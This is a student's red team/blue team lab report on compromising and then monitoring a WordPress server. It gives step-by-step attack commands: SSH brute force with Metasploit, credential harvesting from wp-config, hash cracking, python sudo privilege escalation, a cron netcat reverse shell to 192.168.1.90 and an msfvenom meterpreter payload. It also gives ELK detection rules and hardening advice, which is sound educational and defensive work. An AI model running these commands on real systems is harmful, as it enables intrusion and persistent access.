

# Red v. Blue Team - Webserver
## Elizabeth Johnson
---
# Red Team: Summary of Operations
---
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
- References

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

To enumerate the network
`nmap 192.168.1.0/24`

 

 

Target 1 scan:
`nmap -A 192.168.1.110`

 

 

This scan identifies the services below as potential points of entry:

### **Target 1**
1. SSH, port 22
2. HTTP / TCP, port 80
3. RPC, port 111
4. Samba smbd 3.x-4.x, port 139
5. Samba smbd 4.2.14 Debian, port 445

## Critical Vulnerabilities

The following vulnerabilities were identified on each target:

### **Target 1**
1. WordPress User ID vulnerability - user IDs identified by Brute Force and Login Error Messages.
2. Python Privilege escalation - User identified as having access to sudo for python, allowing a privilege escalation to root access [2].
3. Metasploit auxiliary/scanner/ssh/ssh_login - Exploits SSH to find usernames and passwords.  In this case, a user had a weak password which this tool could brute force [6], [7].
4. XML-RPC pingback attack (DDOS) aka Win32.Backdoor.WPbrutebot - requests to xmlrpc.php can initiate wingback requests which can be used to attack another website and also slow down or crash the originating Wordpress site if heavily used [3], [4], [5].
5. WordPress XMLRPC Login [8]
6. Weak, Short and exposed Passwords - can be cracked with ease with existing scanners and tools such as John and the Metasploit exploit listed above. In addition, passwords were found in configuration files in plain text allowing further access.

Scans
- `wpscan http://192.168.1.110/wordpress`

  [wpscan_target1](P3_Files/wpscantarget1.txt)

- Discovered Python Privilege escalation with 
  - `sudo -l`:

    

- Metasploit scans:
  - Auxiliary/scanner/http/wordpress_xmlrpc_login

  
  - Auxiliary/dos/http/wordpress_xmlrpc_dos

  
  - Negative results: target not vulnerable to GHOST: Auxiliary/scanner/http/wordpress_ghost_scanner

  

## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the requested confidential data.  Due to the nature of the exercise, the first and last stages of reconnaissance and covering the tracks were omitted.  This engagement covered scanning and enumeration, gaining access and persistence.

### **Target 1**
**Confidential data located:**
- **flag1**: flag1{b9bbcb33e11b80be759c4e844862482d}
  - Navigated to /var/www/html 
  - `find -iname “flag*” *`
  - Located in /var/www/html/service.html
- **flag2.txt**: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  -File found in /var/www
- **flag3**: flag3{afc01ab56b50591e7dccf93122770cd2}
- **flag4.txt**: flag4{715dea6c055b9fe3337544932f2941ce}
  - MySQL: `select * FROM wp_posts WHERE post_content like “%flags%”;`
  - flag4.txt also found in /var/www

**Process of exploitation:**
1. **Scan and Enumerate** 
 - Used a series of scans, as detailed above in vulnerabilities section:
  - Overview of network:
    `nmap 192.168.1.0/24`
  - In-depth for Target 1:
    `nmap -A 192.168.1.110`
  - Scan of Wordpress (results included above):
    `wpscan —url http://192.168.1.110/wordpress —enumerate vp, u —output wpscantarget1`
    #enumerates users: michael and steven

  - To find password:
  - Used Metasploit auxiliary/scanner/ssh/ssh_login
    - `msfconsole`
    - `search ssh`
    - `use 18`
    - `options`
    - `set USERNAME michael`	
    - `set RHOSTS 192.168.1.110`
    - `set USER_AS_PASS true`
    - `set VERBOSE true`
    - `exploit`

    

    
    
    - User michael password is michael.  This exploit did not find the password for steven.

2. **Gaining Access**
  - Used password and username gained above to SSH into Target 1:
    - `ssh michael@192.168.1.110 -p 22` 
    - #password: `Michael`

    
  
  
  - I searched the system for the designated data and for additional information that would help maintain access to the system. 

    - Flag1 and Flag2 were located by a simple search of directories and files:
      - For **flag2:**
        - `cd /var/www`
        - `ls`
        - `cat flag2.txt`

        

      - For **flag1:**
        - `cd /var/www/html`
        - `grep ‘flag*’`

        found flag1 inside the service.html file.

        

    - Located the Wordpress configuration file in /var/www/html/wordpress.  This file enumerated the username and password for the MySQL database, which we used to gain access to the database [1].
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`

      

      #MySQL DB user name = root

      #MySQL DB password = R@v3nSecurity

      - `mysql -u root -p`
      - `R@v3nSecurity`
      - `show databases;`
      - `use wordpress;`
      - `show tables;`

      

      - `describe wp_users;`
    
      

      - `select user_login, user_pass from wp_users;`

      Saved user/hash combos in [wp_hashes.txt](P3_Files/wp_hashes.txt)

    - The other two flags were also located with a search of the database:
    `select * FROM wp_posts WHERE post_content like “%flag%”;`

      - Found **flag3** and **flag4.**

        

      - Alternate method for locating **flag4:**
        - `cd /`
        - `ls`

        

  - In order to extend access, used John to crack the hashed passwords:

    - `john wp_hashes.txt`

      #steven:pink84.  
    
      Since we had user michael’s password already, stopped the process.

      

3. **Maintaining Access**

  - In order to maintain persistence, a reverse shell was set up for the user, Michael.  
    - In addition, a Cronjob was added to attempt to automatically start the reverse shell periodically.
      - `crontab -e`
      - `30 7 * * * nc 192.168.1.90 4444 -e /bin/bash`
    `nc 192.168.1.90 4444 -e /bin/bash`

      
    
    - on kali attacker machine run:
      - `nc -lnvp 4444`

      - To confirm connection:
        - `whoami`
        - `pwd`

      

  - Since an attacker has a higher chance of maintaining access if they have multiple compromised points, I moved on to user steven.

    - SSH connection for steven:
      - `ssh steven@192.168.1.110 -p 22`
      - `pink84`

    - To enumerate user permissions:

      - `sudo -l`
      - Saw that steven had sudo access through python.

      

    - To escalate privileges:
      - `sudo python -c ‘import pty;pty.spawn(“bin/bash”)’`

        OR

      - `sudo python -c ‘import os; os.system(“bash”)’`
      - Gain sudo/root

      

    - Used Metasploit to gain persistence for user steven:
      - `msfconsole`
      - `search ssh`
      - `use multi/ssh/sshexec`
      - `set USERNAME Steven`
      - `set RHOSTS 192.168.1.110`
      - `set PASSWORD pink84`
      - `exploit`

      

    - Crafted payload with msfvenom:
      - `msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o /tmp/pythonwhoo.py`
      
      
    - The upload command did not work inside the Meterpreter session already in existence, so using nano, I cut and pasted the contents of the payload into a new file created on Target 1.  

    - In the existing Meterpreter session, executed the payload:
      - `execute -f pythonwhoo.py`

      

    - In another session, I started the exploit:
      - `exploit python/meterpreter/reverse_tcp`
      - `exploit`

    - This gained the reverse TCP handler connection, and I was able to confirm the connection:
      - `pwd`
   
       

## References:
1. [Handy MySQL Commands](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm) 
2. [Linux Privilege Escalation using Sudo Rights](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)
3. https://www.zscaler.com/blogs/research/malware-leveraging-xml-rpc-vulnerability-exploit-wordpress-sites?utm_source=google&utm_medium=cpc&utm_campaign=dynamic-search-na&gclid=CjwKCAjw_sn8BRBrEiwAnUGJDtlFBbaKCOETjfHtsYwCYuSSfOPV6kYAR2INNBtFXGo5DVoNGhCwjxoCFZ8QAvD_BwE 
4. https://www.iplocation.net/defend-wordpress-from-ddos 
5. https://codex.wordpress.org/XML-RPC_Pingback_API 
6. https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/ 
7. https://nest.parrot.sh/packages/tools/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login_pubkey.md 
8. https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login 
9. https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner 
10. https://securityintelligence.com/wordpress-ghost-vulnerability/ 
11. https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos 
12. https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

# Blue Team: Summary of Operations
---

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic and Behavior
- Suggestions for Going Further
- References

## Network Topology

The following machines were identified on the network:

HOST
- Operating System: Windows Server 2008
- Purpose: Host Machine / Gateway
- IP Address: 192.168.1.1
- Open Ports: 135, 138, 445, 2179, 3389
- MAC: 00:15:5d:00:04:0d

ELK
- Operating System: Linux - no exact OS matches
- Purpose: Logging server - ELK stack.
- IP Address: 192.168.1.100
- Open Ports: 22, 9200
- MAC: 4C:EB:42:D2:D5:D7

Capstone
- Operating System: Linux - no exact OS matches
- Purpose: Web Server
- IP Address: 192.168.1.105
- Open Ports: 22, 80
- MAC: 00:15:5D:00:04:0F

Target1
- Operating System:
- Purpose: Wordpress Server
- IP Address: 192.168.1.110
- Open Ports: 22, 80, 111, 139, 445
- MAC: 00:15:5D:00:04:10

Target2
- Operating System: Linux 3.2 - 4.9
- Purpose: Wordpress Server
- IP Address: 192.168.1.115
- Open Ports: 22, 80, 111, 139, 445
- MAC: 00:15:5D:00:04:11

Kali
- Operating System: Linux 2.6.32
- Purpose: Attacker Machine
- IP Address: 192.168.1.90
- Open Ports: 22

## Description of Targets
Fill in the following: 

- Two VMs on the network were vulnerable to attack: Target 1 [192.168.1.110] and Target 2 [192.168.1.105].

- Each VM functions as an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers.

## Monitoring the Targets
The nmap scan identifies the services below as potential points of entry:

**Target 1**
- SSH, port 22
- HTTP / TCP, port 80
- RPC, port 111
- Samba smbd 3.x-4.x, port 139
- Samba smbd 4.2.14 Debian, port 445

**Target 2**
- SSH, port 22
- HTTP / TCP, port 80
- RPC, port 111
- Samba smbd 3.x-4.x, port 139
- Samba smbd 4.2.14 Debian, port 445

Traffic to these services should be carefully monitored. The network has an ELK stack deployment utilizing Metricbeat, Packetbeat and Filebeat.  Kibana was used for visualizations and searches.  To this end, we have implemented the alerts below with Watcher: 

**SSH Traffic Alert**

SSH Traffic is implemented as follows:

- Metric: Packetbeat, Destination Port of 22
- Threshold: Any Traffic in last minute
- Vulnerability Mitigated: Unauthorized access via SSH on port 22.
- Full rule: packetbeat-* WHEN min() OF destination.port OVER all documents IS BETWEEN 21 and 23 FOR THE LAST 1 minute.
- Reliability: Medium reliability. If SSH is routinely used for legitimate purposes, then this alert will generate false positives.

**Excessive HTTP Errors Alert**

Excessive HTTP Errors is implemented as follows:

- Metric: Packetbeat, HTTP Response Status Code 400 or above.
- Threshold: Above 400 for the last 5 minutes.
- Vulnerability Mitigated: Client-side and Server-side errors can serve as an indicator of attack, including for brute force attacks or privilege escalation attempts.
- Full Rule: packetbeat-* WHEN count () GROUPED OVER top 5 `http.response.status_code` IS ABOVE 400 FOR THE LAST 5 minutes
- Reliability: High reliability. It detected our WordPress Scan (wpscan), our attempts to utilize Metasploit’s /auxiliary/scanner/http/wordpress_xmlrpc_login and auxiliary/dos/http/wordpress_xmlrpc_dos. 

**HTTP Request Size Monitor Alert**

HTTP Request Size Monitor is implemented as follows:

- Metric: Packetbeat, HTTP Request Size
- Threshold: When requested byte size is above 3500 for 1 minute.
- Vulnerability Mitigated: Indicative of high traffic events, which could be an indicator of attack, such as DOS or DDOS.
- Full Rule: packetbeat-* WHEN sum() OF http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
- Reliability: Low reliability. While this did fire during some Red Team activity, it also appears to fire when the system is not under attack.  It also failed to fire during some Red Team attempts.

**Listener Alert**

Listener Alert is implemented as follows:

- Metric: Packetbeat, Destination Port between 4000-5000
- Threshold: When destination port values fall between 4000 and 5000.
- Vulnerability Mitigated: Reverse Shells and other unusual traffic that could indicate the system has been compromised.
- Full Rule: packetbeat-* WHEN count () OF destination.port OVER all documents IS BETWEEN 4000 and 5000 FOR THE LAST 1 minute
- Reliability: High reliability.  This alert fired during all Red Team activity utilizing a Reverse Shell with the targeted system directing traffic to 192.168.1.90:4444.  However, if the attack set the listener outside this port range, the alert would not activate.

**CPU Usage Monitor Alert**

CPU Usage Monitor is implemented as follows:

- Metric: Metricbeat, System Process CPU usage
- Threshold: When 50% of CPU is used by system processes.
- Vulnerability Mitigated: Availability impacts to the server. When the processor slows, it can impact user access and performance speed.  This can be an indicator of attack, but can also alert to other problems with how the system is running.
- Full Rule: metricbeat-* WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes.
- Reliability: High reliability.  This alert did not fire during the engagement. None of the Red Team activity caused a CPU spike.
- *NOTE: this alert did not fire during the exercise.*

## Suggestions for Going Further

The logs and alerts generated during the assessment suggest that this network is susceptible to several active threats. In addition to watching for occurrences of such threats, the network should be hardened against them. The Blue Team suggests that IT implement the fixes below to protect the network:

**Python Privilege Escalation**
User has sudo access for python, allowing privilege escalation via spawning a bash shell through a python command.
- Recommendation:
  - Remove sudo access for python for the user.
  - If the user requires this access, then craft an alert or report that will watch for “bash” within a sudo command (system.auth.sudo.command: “bash”)
- Why It Works:  If this access is removed, this method of privilege escalation is closed.  If the access is required and has legitimate uses, such as the user routinely needs to access python, then monitoring for suspicious commands is needed (5).

**Weak and Exposed Passwords / SSH Login**
Users on the system had short, weak passwords. In addition, passwords were exposed within files in both plaintext and hashed form in files that were accessible by users with weak passwords.
- Recommendations: 
  - Require SSH keys to login via SSH and disable passwords.  Logging in via keys is generally a more secure way to access the SSH service, especially if best practices are followed regarding securing private keys (4).
  - Update password policy, including password change requirements, size and complexity.  Installing Pam allows the administrator to set password requirements for types of characters, etc (1).
- Why It Works: 
  - Strong passwords are critical to keeping systems secure.  In addition, requiring periodic changes mean that if any passwords have been compromised, administrators can cut off that access with the reset.  
  - SSH keys are also a better method for logging into SSH for security purposes, since they are much more difficult to brute force.
  - Using SSH keys also prevents the Metasploit exploit for SSH Login because it would not be able to brute force the password.  If the private key is also properly protected, this exploit would not be possible (6, 7).

**XML-RPC pingback**
- Recommendation: 
  - Remove xml-rpc.php from root of WordPress folder. 
  - To improve detection, in case this module is necessary: install mod_status Apache module and enable server-status support, which allows server activities and performance to be viewed.  
  - Disable XML-RPC on all IPs except for known good IP, if needed.
- Why It Works: 
  - By removing the service, you remove the method used for this attack (2, 3).
  - The Apache module increases visibility of the activities on the network, increasing the chance of catching an attack.
  - By creating a whitelist, this would decrease the chance of malicious traffic.

## References: 
1. https://www.linuxtechi.com/enforce-password-policies-linux-ubuntu-centos/
2. https://www.iplocation.net/defend-wordpress-from-ddos 
3. https://codex.wordpress.org/XML-RPC_Pingback_API 
4. https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server 
5. [Linux Privilege Escalation using Sudo Rights](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)
6. https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/ 
7. https://nest.parrot.sh/packages/tools/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login_pubkey.md 

[Back to Portfolio](https://github.com/bethwjohnson/portfolio)